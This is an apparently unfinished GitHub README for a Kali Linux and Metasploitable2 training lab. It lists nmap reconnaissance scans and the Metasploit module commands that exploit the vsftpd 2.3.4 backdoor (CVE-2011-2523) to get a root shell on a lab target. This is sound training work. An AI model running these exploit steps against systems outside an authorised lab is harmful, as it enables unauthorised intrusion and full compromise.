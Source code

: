 # kali-metasploitable-lab
Penetration testing sim using Kali Linux and Metasploitable2

# Kali Linux & Metasploitable2: Penetration Testing Lab

This project simulates an internal network attack scenario using Kali Linux (attacker) and Metasploitable2 (target). It demonstrates core reconnaissance, exploitation, and post-exploitation techniques aligned with SOC Analyst learning objectives.

---

## Lab Setup

| Component      | Details                        |
|----------------|--------------------------------|
| Attacker       | Kali Linux (UTM VM)            |
| Target         | Metasploitable2 (UTM VM)       |
| Network        | Shared NAT / Bridged           |
| Connectivity   | Confirmed via ping             |

---

## Phase 1: Reconnaissance

### Target IP: `192.168.64.3`

#### Basic Nmap Scan
```bash
nmap -sS -T4 192.168.64.3 -oN basic-scan.txt
```
Summary of Open Ports:
- 21 (FTP)
- 22 (SSH)
- 80 (HTTP)
  
#### Service Version Detection
```bash
nmap -sS -sV -T4 192.168.64.3 -oN version-scan.txt
```
Summary:
- FTP: vsftpd 2.3.4
- SSH: OpenSSH 4.7p1 Debian
- HTTP: Apache 2.2.8
  
#### Vulnerability Detection
```bash
nmap --script vuln -T4 192.168.64.3 -oN vuln-scan.txt
```
Summary: 
- Port 21 - VULNERABLE to vsftpd 2.3.4 backdoor (CVE-2011-2523)
- Port 22 - 
- Port 80 - Apache version outdated with multiple CVEs


---

## Phase 2: Exploitation

### Exploit: vsftpd 2.3.4 Backdoor (CVE-2011-2523)

#### Tool Used: Metasploit Framework

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.64.3
exploit
```

Result: 
* Successful shell access as ```root```
* Verified with ```whoami```

### Exploit: 

